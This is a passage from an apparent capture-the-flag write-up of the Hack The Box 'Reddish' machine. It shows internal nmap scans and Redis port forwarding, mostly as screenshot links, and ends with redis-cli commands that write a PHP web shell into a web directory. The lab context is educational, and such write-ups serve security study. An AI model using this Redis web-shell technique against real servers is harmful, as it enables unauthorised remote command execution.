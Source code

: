 **./nmap -p- -sT 172.19.0.4**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%2016.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%2016.png)

**./nmap -p- -sT 172.19.0.3**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%2017.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%2017.png)

→ Port forwarding the redis port :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%2018.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%2018.png)

⇒ Enumerating 172.19.0.3 webpage :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%2019.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%2019.png)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%2020.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Reddish%20Box%20c238084c8dce4904a0b15346c2be4c32/Untitled%2020.png)

⇒ We previously saw that we have access to redis lets write an webshell to the backup database folder 

```
redis-cli
config set dir /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
config set dbfilename redis.php
set webshell '<?php echo system($_REQUEST["cmd"]); ?>'
save
```
